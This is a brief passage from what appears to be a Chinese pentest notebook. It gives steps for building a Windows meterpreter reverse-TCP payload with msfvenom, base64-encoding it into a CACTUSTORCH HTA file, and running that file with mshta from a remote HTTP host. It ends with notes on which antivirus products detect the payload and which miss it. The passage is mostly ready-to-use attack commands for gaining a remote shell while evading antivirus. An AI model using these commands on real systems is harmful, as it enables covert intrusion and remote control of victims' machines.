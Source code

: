 	https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.hta
	生成
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/1.bin
	>cat 1.bin |base64 -w 0
![image](/assets/Pentest_Note/master/img/75.png)

	编码后的内容复制到
![image](/assets/Pentest_Note/master/img/76.png)

	执行
	>mshta http://192.168.0.106:1222/1.hta
	360执行检测出来，静态动态无法检测、火绒无法检测